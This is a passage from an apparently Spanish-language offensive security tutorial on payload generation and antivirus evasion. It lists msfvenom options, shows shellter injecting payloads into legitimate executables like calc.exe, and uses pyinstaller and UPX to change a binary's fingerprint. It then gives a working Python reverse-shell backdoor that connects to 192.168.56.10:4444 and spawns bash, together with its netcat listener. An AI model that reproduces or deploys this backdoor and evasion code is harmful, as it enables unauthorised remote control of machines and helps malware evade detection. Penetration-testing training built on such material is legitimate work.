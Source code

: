 Opciones clave:

* `-p`: payload a usar.
* `LHOST`: IP de tu máquina atacante.
* `LPORT`: puerto de escucha.
* `-f`: formato de salida (`exe`, `elf`, `py`, etc.).
* `-o`: nombre del archivo.

---

## 2.6. Ofuscación y Evasión de Antivirus

### 2.6.1. Uso de `shellter`

`shellter` permite inyectar payloads en ejecutables legítimos.

```bash
sudo apt install shellter
sudo shellter
# Selecciona modo automático, payload y ejecutable base (por ejemplo: calc.exe)
```

### 2.6.2. Empaquetar con `pyinstaller`

Si tienes un script en Python:

```bash
pyinstaller --onefile --noconsole script.py
```

Puedes luego modificar el binario con UPX para compresión y cambio de huella:

```bash
upx --best script
```

---

## 2.7. Scripts Portables para Ataques Rápidos

Ejemplo de backdoor en Python:

```python
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.10",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```

En el atacante:

```bash
nc -lvnp 4444
```

---